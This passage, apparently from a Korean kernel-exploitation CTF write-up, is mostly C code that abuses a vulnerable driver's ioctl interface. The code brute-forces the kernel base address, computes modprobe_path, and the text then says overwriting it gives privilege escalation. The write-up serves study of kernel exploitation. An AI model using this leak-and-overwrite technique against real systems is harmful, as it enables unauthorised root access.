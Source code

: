 ```c
        return -1;
    }
    return ioctl(fd, GET_PROFILE_COMMAND, p);
}

int remove_profile(struct profile* p)
{
    int fd = open(DEVICE_NAME, O_RDONLY);
    if (fd < 0)
    {
        printf("remove profile: open error\n");
        return -1;
    }
    return ioctl(fd, REMOVE_PROFILE_COMMAND, p);
}

int main(void)
{
    char string[] = "TMPSTR";
    struct task t;
    struct profile p;
    uint8_t i;
    uint64_t kernel_base;

    //leak kernel base address
    p.name = string;
    p.t = &t;
    memset(&t, 0, sizeof(t));
    set_profile(&p);
    for (i = 0x81; i < 0xff; i++)
    {
        p.name = string;
        p.t = (struct task*)((0xffffffff00000000 | i << 24) + 0x1256f40);
        if (get_profile(&p) == 0)
        {
            kernel_base = 0xffffffff00000000 | i << 24;
            printf("found kernel base: %llx\n", kernel_base);
            break;
        }

    }
    p.t = &t;
    remove_profile(&p);
    uint64_t modprobe_path = kernel_base + 0x1256f40;
    printf("modprobe_path: %llx\n", modprobe_path);
    return 0;
}
```

이제 할 일은 실제 `modprobe_path`를 덮어 써서 권한 상승을 하는 것이다. 
